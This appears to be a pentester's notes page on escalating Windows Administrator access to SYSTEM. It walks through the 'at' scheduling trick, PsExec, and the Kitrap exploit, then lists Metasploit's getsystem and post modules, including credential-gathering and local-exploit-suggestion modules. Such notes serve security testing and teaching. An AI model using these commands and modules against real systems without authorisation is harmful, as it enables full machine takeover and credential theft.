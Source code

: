 ## Escalate to **SYSTEM** from Administrator

On Windows XP and Older
If you have a GUI with a user that is included in Administrators group you first need to open up **cmd.exe** for the administrator. If you open up the cmd that is in Accessories it will be opened up as a normal user. And if you rightclick and do **Run as Administrator** you might need to know the Administrators password. Which you might not know. So instead you open up the cmd from **c:\windows\system32\cmd.exe**. This will give you a cmd with Administrators rights.

From here we want to become SYSTEM user. To do this we run:
First we check what time it is on the local machine:

    time

    # Now we set the time we want the system CMD to start. Probably one minuter after the time.
    at 01:23 /interactive cmd.exe

And then the cmd with SYSTEM privs pops up.

## Vista and Newer

You first need to upload PsExec.exe and then you run:
    
    psexec -i -s cmd.exe

## Kitrap

On some machines the at 20:20 trick does not work. It never works on Windows 2003 for example. Instead you can use Kitrap. Upload both files and execute vdmaillowed.exe. I think it only works with GUI.

    vdmallowed.exe
    vdmexploit.dll

Using Metasploit
So if you have a metasploit meterpreter session going you can run **getsystem**.

## Post modules

Some interesting metasploit post-modules

First you need to background the meterpreter shell and then you just run the post modules.
You can also try some different post modules.

    use exploit/windows/local/service_permissions
    post/windows/gather/credentials/gpp
    run post/windows/gather/credential_collector 
    run post/multi/recon/local_exploit_suggester
    run post/windows/gather/enum_shares
    run post/windows/gather/enum_snmp
    run post/windows/gather/enum_applications
    run post/windows/gather/enum_logged_on_users
    run post/windows/gather/checkvm
